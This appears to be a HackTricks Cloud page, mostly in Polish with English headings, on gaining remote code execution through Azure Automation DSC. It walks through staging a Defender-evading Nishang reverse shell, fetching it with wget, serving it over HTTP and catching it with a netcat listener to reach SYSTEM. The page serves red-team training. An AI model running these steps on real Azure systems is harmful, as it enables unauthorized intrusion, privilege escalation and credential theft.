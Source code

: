 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Proces polega na skonfigurowaniu infrastruktury serwera zdalnego do hostowania zmodyfikowanego ładunku Nishang `Invoke-PowerShellTcp.ps1`, nazwanego `RevPS.ps1`, zaprojektowanego w celu ominięcia Windows Defender. Ładunek jest serwowany z maszyny Kali Linux o IP `40.84.7.74` przy użyciu prostego serwera HTTP w Pythonie. Operacja jest realizowana w kilku krokach:

#### Step 1 — Create Files

* **Files Required:** Potrzebne są dwa skrypty PowerShell:
1. `reverse_shell_config.ps1`: Plik Desired State Configuration (DSC), który pobiera i wykonuje ładunek. Można go uzyskać z [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Skrypt do publikacji konfiguracji na VM, dostępny na [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
* **Customization:** Zmienne i parametry w tych plikach muszą być dostosowane do specyficznego środowiska użytkownika, w tym nazwy zasobów, ścieżki plików oraz identyfikatory serwera/ładunku.

#### Step 2 — Zip Configuration File

* Plik `reverse_shell_config.ps1` jest kompresowany do pliku `.zip`, co czyni go gotowym do transferu do Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Krok 3 — Ustaw kontekst przechowywania i przesyłanie

* Zszyfrowany plik konfiguracyjny jest przesyłany do zdefiniowanego kontenera przechowywania Azure, azure-pentest, za pomocą polecenia Set-AzStorageBlobContent z Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Krok 4 — Przygotowanie Kali Box

* Serwer Kali pobiera ładunek RevPS.ps1 z repozytorium GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Skrypt jest edytowany, aby określić docelową maszynę wirtualną Windows i port dla odwrotnego powłoki.

#### Step 5 — Publish Configuration File

* Plik konfiguracyjny jest wykonywany, co skutkuje wdrożeniem skryptu odwrotnej powłoki w określonej lokalizacji na maszynie wirtualnej Windows.

#### Step 6 — Host Payload and Setup Listener

* Uruchamiany jest Python SimpleHTTPServer, aby hostować ładunek, wraz z nasłuchiwaczem Netcat do przechwytywania przychodzących połączeń.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Zaplanowane zadanie wykonuje ładunek, osiągając uprawnienia na poziomie SYSTEM.

#### Wnioski

Pomyślne wykonanie tego procesu otwiera liczne możliwości dalszych działań, takich jak zrzut poświadczeń lub rozszerzenie ataku na wiele maszyn wirtualnych. Przewodnik zachęca do dalszej nauki i kreatywności w dziedzinie Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

